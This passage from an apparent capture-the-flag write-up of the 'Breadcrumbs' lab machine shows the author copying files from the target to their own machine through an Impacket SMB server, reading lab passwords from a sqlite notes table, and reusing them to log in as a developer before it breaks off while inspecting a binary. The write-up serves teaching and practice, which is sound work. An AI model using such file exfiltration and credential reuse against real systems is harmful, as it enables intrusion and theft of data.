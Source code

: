 The directory contained several files:


<p class="imgMiddle">
<img src="/assets/img/ChallengeVMs/Breadcrumbs/img13.png"  style="width: 80%" />
</p>



There are several methods which could be used to transfer the contents of the directory to your host, I decided to make use of Impacket's SMB server which was done using the following commands:

```bash
### On Kali Machine
sudo impacket-smbserver kali . -smb2support

### On Breadcrumbs host
copy * \\10.10.14.112\kali
```

With access to the sqlite database, I opened the database using sqlitebrowser and navigated to the **Notes** table which contained the following information:

```text
\\id=48c70e58-fcf9-475a-aea4-24ce19a9f9ec juliette: jUli901./())!

\\id=fc0d8d70-055d-4870-a5de-d76943a68ea2 development: fN3)sN5Ee@g

\\id=48924119-7212-4b01-9e0f-ae6d678d49b2 administrator: \[MOVED\]
```

## Privilege Escalation using Development
Using the credentials shown above, I was able to log into the host with the development account. 

<p class="imgMiddle">
<img src="/assets/img/ChallengeVMs/Breadcrumbs/img14.png"  style="width: 80%" />
</p>


Since I was now a developer, I attempted to access the `C:\Development` directory which contained `Krypter_Linux`. I copied the file to my Kali machine and started to view the contents of the Binary. Running `file` on the Binary:
